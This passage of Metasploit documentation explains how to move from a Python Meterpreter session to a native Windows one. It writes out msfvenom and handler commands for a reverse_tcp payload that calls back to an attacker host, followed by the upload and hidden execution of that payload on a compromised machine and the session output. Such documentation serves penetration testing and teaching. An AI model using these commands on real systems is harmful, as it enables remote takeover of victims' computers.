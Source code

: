 If you are familiar with using the post exploitation API for Windows, you probably know about
Railgun. Unfortunately, Railgun is not available in Python Meterpreters.

## Switching to a Native Meterpreter

The Python Meterpreter currently does not quite have the same strength as a native Meterpreter,
therefore there are times you will want to migrate to a native one to expose yourself with more
features.

There are many ways to migrate to a native Meterpreter, some common approaches:

**Example 1: Upload and Execute**

Step 1: Produce a native Meterpreter, such as:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=5555 -f exe -o /tmp/native.exe
```

Step 2: Start another handler for the native payload:

```
./msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST [IP]; set LPORT 5555; run"
```

Step 3: Upload the native via the Python Meterpreter session:

```
meterpreter > upload /tmp/native.exe C:\\Users\\sinn3r\\Desktop
[*] uploading  : /tmp/native.exe -> C:\Users\sinn3r\Desktop
[*] uploaded   : /tmp/native.exe -> C:\Users\sinn3r\Desktop\native.exe
meterpreter > 
```

Step 4: Execute the native payload:

```
meterpreter > execute -H -f C:\\Users\\sinn3r\\Desktop\\native.exe
Process 2764 created.
```

And then your other handler (for the native payload) should receive that session:

```
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.1.220
[*] Meterpreter session 1 opened (192.168.1.209:5555 -> 192.168.1.220:49306) at 2016-07-05 21:48:04 -0500

meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter > 
```
